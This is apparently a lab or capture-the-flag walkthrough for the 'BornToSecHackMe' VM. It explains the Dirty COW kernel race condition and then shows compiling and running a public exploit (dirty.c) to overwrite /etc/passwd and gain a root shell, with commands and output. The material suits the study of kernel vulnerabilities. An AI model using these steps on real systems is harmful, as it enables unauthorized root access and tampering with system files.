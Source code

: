 # Second Way : Dirty Cow Exploit

Starting on zaz :

````bash
uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 i686 i386 GNU/Linux
````

Looking on https://www.exploit-db.com/ and elsewhere, we find a famous vulnerability for this version of Linux : Dirty COW (Copy-On-Write)


### How Dirty COW Works

First, we create a private copy (mapping) of a read-only file. Second, we write to the private copy. Since it's our first time writing to the private copy, the COW feature takes place. The problem lies in the fact that this write consists of two non-atomic actions:

-locate physical address

-write to physical address

This means we can get right in the middle (via another thread) and tell the kernel to throw away our private copy — using madvise. This throwing away of the private copy results in the kernel accidentally writing to the original read-only file.

How ? Well there’s a lazy “trick” used by the kernel when it creates the copy. The way the kernel acts (when you attempt to write through out-of-band memory access such as proc/self/mem) is the following :
1. Try to access the address of the original file
2. Get denied because of the flags (indicating a non-authorized attempt to write)
3. Since the access originally happened (on the virtual memory) on a mapping (thanks flags), request don’t get simply denied : the kernel creates a copy.
4. When copying, the kernel also copy the rights, meaning the user can’t write in it… And some lazy developer, instead of adding a flag, found it simpler to drop the flag indicating an attempt to write and repeat the code at 1., but with the address of the copy rather than the original file.
5. Since the flags don’t indicate anymore a request to WRITE but actually a request to READ, it gets authorized.

Now, what if between 4 and 5 we use madvise to purge the memory at the address of the copy ? Well the second attempt to access fails again, but this time, the error handler of the Kernel, seeing it’s just a READ attempts, defers to the a page linked to the original file. And launch the loop at 1 again. And bam, we write in the original file !

See
https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html
And the pdf file


### Let’s get to work : 

We download dirty.c here :
https://www.exploit-db.com/exploits/40839

We connect to zaz

````bash
$>gcc -pthread dirty.c -o dirty -lcrypt
$> ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
````
We enter dirtywin

````
$> ./dirty
Please enter the new password:
Complete line:
firefart:fidh7GHB02eRM:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0

Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'dirtywin'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
````

````bash
zaz@BornToSecHackMe:~$ su
Password:
firefart@BornToSecHackMe:/home/zaz# id
uid=0(firefart) gid=0(root) groups=0(root)
````

Done

